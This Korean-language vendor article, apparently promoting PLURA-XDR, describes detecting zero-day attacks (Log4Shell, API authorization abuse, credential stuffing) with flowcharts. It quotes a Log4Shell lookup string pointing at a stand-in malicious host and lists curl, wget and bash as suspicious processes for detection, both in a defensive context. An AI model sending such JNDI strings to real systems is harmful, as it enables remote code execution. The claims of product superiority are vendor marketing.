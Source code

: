 ## 제로 데이(Zero-Day) 공격 탐지 및 대응 – 사례 및 시나리오

## 🔍 제로 데이 공격이란?  
**제로 데이 공격**(Zero-Day Attack)은 보안 취약점이 발견되었지만, 아직 공식적인 패치나 대응 방법이 제공되지 않은 상태에서 공격자가 이를 악용하는 사이버 공격입니다.  
기존 보안 시스템(SIEM, WAF, NDR 등)은 **이미 알려진 공격 패턴**(시그니처, 룰 기반 탐지)에 의존하기 때문에 제로 데이 공격을 탐지하기 어렵습니다.  

PLURA의 **웹 요청 본문 로그 분석 + EDR**을 활용하면, 제로 데이 공격을 보다 효과적으로 탐지하고 대응할 수 있습니다.  

---

## **제로 데이 공격 사례 및 탐지 시나리오**  

### **📌 사례 1: Log4j(Log4Shell) 취약점 공격 탐지**  

#### ** 공격 개요**  
2021년 12월, **Log4j**(Log4Shell) 취약점(CVE-2021-44228)이 발견되었습니다.  
- 공격자는 웹 애플리케이션의 **입력 필드**(검색창, 로그인 폼 등)에 **특정 문자열**(JNDI 요청 포함)을 삽입하여 원격 코드 실행(RCE, Remote Code Execution)을 수행할 수 있었습니다.  
- WAF 및 기존 보안 솔루션이 이 패턴을 알기 전까지는, 탐지가 어려운 전형적인 제로 데이 공격이었습니다.  

#### ** Log4j 공격 흐름 (Mermaid Flowchart)**  
```mermaid
graph TD
    A[공격자] -->|JNDI Payload 포함 요청| B[취약한 웹 애플리케이션]
    B -->|로그 저장| C[Log4j 취약점 존재]
    C -->|JNDI Lookup 수행| D[외부 악성 서버 접속]
    D -->|악성 코드 전송| E[웹 서버에서 RCE 발생]
    E -->|백도어 설치| F[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|JNDI 패턴 탐지| Y[공격 차단]
    E -->|프로세스 모니터링| Z[EDR 탐지 및 실행 차단]
```

#### ** PLURA 웹 요청 본문 분석 + EDR 탐지 방법**  
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
- PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 의심스러운 패턴을 탐지 가능.  
- 검색창, 유저 입력값, 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  

✅ **2) EDR 연계를 통한 공격 실행 탐지 및 차단**  
- 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우, PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트**(Fork, Execve) 탐지.  
- `curl`, `wget`, `bash` 등의 의심스러운 프로세스 실행 감지 후 자동 차단 가능.  

---

### **📌 사례 2: API 취약점 악용 (Zero-Day API Attack)**  

#### ** API 공격 흐름 (Mermaid Flowchart)**  
```mermaid
graph TD
    A[공격자] -->|API Brute Force 공격| B[취약한 API 서버]
    B -->|다른 사용자 계정으로 정보 요청| C[권한 검증 미흡]
    C -->|계정 데이터 유출| D[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|비정상적인 API 호출 패턴 탐지| Y[공격 차단]
    B -->|API 호출 횟수 분석| Z[비정상적 호출 탐지 및 차단]
```

✅ **1) API 요청 본문을 분석하여 비정상적인 요청 패턴 탐지**  
✅ **2) 웹 애플리케이션 로그와 사용자 행동 데이터를 상관 분석**  
✅ **3) EDR을 활용한 추가 보안 탐지**  

---

### **📌 사례 3: 크리덴셜 스터핑 공격 탐지**  

#### Credential Stuffing 공격 흐름 (Mermaid Flowchart)  
```mermaid
graph TD
    A[공격자] -->|유출된 계정 정보로 로그인 시도| B[로그인 서버]
    B -->|반복적인 로그인 실패| C[Brute Force 공격 감지 안됨]
    C -->|일부 계정 로그인 성공| D[계정 탈취]
    D -->|비밀번호 변경, 데이터 탈취| E[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|반복된 로그인 시도 탐지| Y[공격 차단]
    D -->|계정 사용 행위 분석| Z[비정상적 활동 감지 및 추가 인증 요청]
```

✅ **1) 로그인 요청 패턴을 실시간 분석하여 크리덴셜 스터핑 공격 탐지**  
✅ **2) AI 기반 이상 탐지 적용**  
✅ **3) 사용자 행동 분석 및 MFA 강제 적용 가능**  

---

### ** 결론: PLURA 웹 요청 본문 분석 + EDR을 통한 제로 데이 탐지 및 대응**  

✅ **기존 보안 시스템(WAF, SIEM, NDR, TI)은 알려진 공격 패턴만 탐지 가능하므로, 제로 데이 공격을 효과적으로 탐지하지 못함.**  
✅ **PLURA의 웹 요청 본문 분석은 새로운 공격 패턴을 실시간으로 분석하여, 알려지지 않은 제로 데이 공격 탐지 가능.**  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단.**  
✅ **공격 흐름을 상관 분석하고 이상 행위를 탐지하여, Zero-Day 공격이 실시간으로 탐지 및 차단될 수 있도록 지원.**  

🔹 **PLURA-XDR은 웹 요청 본문 분석과 EDR을 결합하여 기존 보안 솔루션이 탐지하지 못하는 제로 데이 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀  
```

